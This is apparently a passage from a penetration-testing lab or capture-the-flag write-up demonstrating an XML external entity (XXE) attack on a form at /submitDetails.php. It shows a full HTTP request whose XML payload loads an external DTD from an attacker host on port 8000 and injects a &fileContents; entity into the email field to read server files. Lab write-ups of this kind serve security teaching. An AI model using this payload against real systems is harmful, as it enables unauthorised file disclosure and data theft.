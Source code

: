 We also need to add this in the `email` tag:

```
&fileContents;
```

So, an example of our request would be:

```http
POST /submitDetails.php HTTP/1.1

Host: 10.129.62.218

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: text/plain;charset=UTF-8

Content-Length: 246

Origin: http://10.129.62.218

Connection: keep-alive

Referer: http://10.129.62.218/

Priority: u=0



<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE email [

 <!ENTITY % dtd SYSTEM

 "http://10.10.15.192:8000/xxe.dtd">

 %dtd;

 %all;

]>
<root>
<name>test</name>
<tel></tel>
<email>

&fileContents;

</email>
<message>1111</message>
</root>
```
